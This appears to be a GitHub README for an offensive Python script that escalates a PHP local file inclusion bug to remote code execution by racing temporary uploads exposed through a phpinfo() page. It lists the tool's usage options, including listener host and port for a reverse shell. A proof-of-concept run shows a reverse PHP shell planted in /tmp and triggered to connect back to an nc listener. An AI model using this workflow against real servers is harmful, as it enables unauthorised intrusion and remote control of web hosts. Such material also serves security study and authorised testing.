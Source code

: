 # LFI to RCE via phpinfo()
Research from [Link](https://insomniasec.com/downloads/publications/LFI%20With%20PHPInfo%20Assistance.pdf)

# Use case

- Found an LFI Vulnerability
- Any script that displays the output of the PHPInfo() function will do. In most cases this will be /phpinfo.php 


# Usage 

```
usage: phpinfolfi_rce.py [-h] -l LFI [-t THREADS] --lhost LHOST --lport LPORT
                         -i PHPINFO [--payload PTYPE] [-e REQEND] [-v VERBOSE]

RCE from LFI with PHPINFO assistance

optional arguments:
  -h, --help            show this help message and exit
  -l LFI, --lfi LFI     the url path of the LFI vuln, per example
                        "http://127.0.0.1:8080/lfi.php?file="
  -t THREADS, --threads THREADS
                        Threads number, set to 10 by default
  --lhost LHOST         The local ip to listen, for rev shell
  --lport LPORT         The local port to listen, for rev shell
  -i PHPINFO, --phpinfo PHPINFO
                        Define the url path of the "phpinfo" script. Per ex:
                        "http://host/phpinfo.php"
  --payload PTYPE       Set the type of payload to use. 1|2|3 By default
                        payload is set to 3
  -e REQEND, --end REQEND
                        Define any end of lfi request, per examlpe "%00" by
                        default the end request is empty
  -v VERBOSE, --verbose VERBOSE
                        Define verbose output. set to False by default
```


# POC

```
$ python phpinfolfi_rce.py -l "http://host/browse.php?file=" --lhost 127.0.0.1 --lport 9001  -t 12  -i "http://host:8080/phpinfo.php"

 ____   ____   ____   ____ _     _       _              _ 
|  _ \ / __ \ / /\ \ / ___| |__ / |____ | |_ ___   ___ | |
| |_) / / _` | |  | | |  _| '_ \| |_  / | __/ _ \ / _ \| |
|  _ < | (_| | |  | | |_| | | | | |/ /  | || (_) | (_) | |
|_| \_\ \__,_| |  | |\____|_| |_|_/___|  \__\___/ \___/|_|
       \____/ \_\/_/                                      

Find all scripts in: https://github.com/roughiz


LFI With PHPInfo() RCE script
-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

Spawning worker pool (12)...
  24 /  1000
Got it! Reverse php Shell created in /tmp/IVA1XpPtHGjS.php

Yep! The payload works great !

I will execute the reverse shell, requesting the url: http://host/browse.php?file=/tmp/IVA1XpPtHGjS.php

Verify your nc listenner 127.0.0.1:9001
Shuttin' down...

```

### Nota 

Install the pyfiglet python module like :

```
$ sudo pip install pyfiglet
```

